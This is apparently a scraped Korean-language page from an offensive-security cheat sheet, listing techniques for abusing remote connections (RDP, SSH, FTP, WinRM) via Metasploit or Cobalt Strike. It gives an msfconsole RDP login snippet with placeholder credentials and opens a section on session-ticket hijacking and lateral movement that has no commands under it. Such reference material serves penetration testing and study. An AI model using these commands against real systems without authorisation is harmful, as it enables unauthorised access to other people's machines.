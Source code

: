 - Rubeus



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 원격 연결 (RDP, SSH, FTP, Win-RM)

원격 연결을 악용하려면 Metasploit이나 Cobalt Strike와 같은 도구를 사용하여 RDP, SSH, FTP 및 Win-RM과 같은 서비스를 통해 접근할 수 있습니다.

## 명령어:

```js
msfconsole
use exploit/windows/rdp/rdp_login
set RHOSTS <대상_ip>
set USERNAME <사용자명>
set PASSWORD <암호>
run
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- Metasploit

# 현재 세션 티켓

현재 세션 티켓을 분석하면, 하이재킹이나 측면 이동에 악용될 수 있는 활성 세션을 식별하는 데 도움이 됩니다.

## 명령어:



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
